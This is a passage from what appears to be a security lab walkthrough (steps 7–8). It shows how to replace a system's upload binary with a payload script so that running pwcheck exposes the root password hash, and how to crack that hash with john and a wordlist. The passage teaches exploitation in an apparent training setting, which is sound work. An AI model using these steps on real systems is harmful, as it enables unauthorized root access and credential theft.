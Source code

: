 Save this script in a file named `payload.sh`

7. Execute the exploit

```bash
chmod +x payload.sh
cp /usr/local/bin/upload /tmp/ # Save a copy of the original upload program
cp payload.sh /usr/local/bin/upload # Replace the upload program with our exploit
pwcheck # Run pwcheck and execute the exploit 
```

This will reveal the hashed password for the root user

![Command line output showing root password hash](./images/c39.03.07.png "Root Password Hash Revealed")

8. Crack the password using `john`

Save the root user's password hash in a file called `hash.txt`

Run john with the provided wordlist: `john --wordlist=/home/user/Downloads/wordlist.txt ./hash.txt --format=crypt`

This should only take a minute or two. 
